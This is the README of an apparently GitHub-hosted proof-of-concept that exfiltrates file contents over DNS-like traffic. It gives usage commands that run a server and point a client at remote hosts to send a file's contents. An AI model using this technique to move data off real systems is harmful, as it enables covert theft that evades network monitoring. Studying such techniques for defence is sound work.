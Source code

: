 # About

This repository contains a proof of work for extracting file-content via (what looks like) DNS.
The *client* takes a file and sends it's content to the *server*.

Upon receiving a payload, the server will display it's content and save it to a file.

# Usage

## Server

`./server.py [HOST [PORT]]`

default: 172.0.0.1:53

e.g.: 

`./server.py`: Start server on 172.0.0.1:53

`./server.py 0.0.0.0`: Start server on 0.0.0.0:53

`./server.py 192.168.0.100 4000`: Start server on 192.168.0.100:4000


**Note**: When running on low ports (like 53), root privileges are required.

## Client

`./client.py FILE [HOST [PORT]]`

default: 172.0.0.1:53

e.g.: 

`./client.py robotergesetz.txt`: Send content of robotergesetz.txt to 172.0.0.1:53

`./client.py robotergesetz.txt 0.0.0.0`: Send content of robotergesetz.txt to 0.0.0.0:53

`./client.py robotergesetz.txt 192.168.0.100 4000`: Send content of robotergesetz.txt to 192.168.0.100:4000

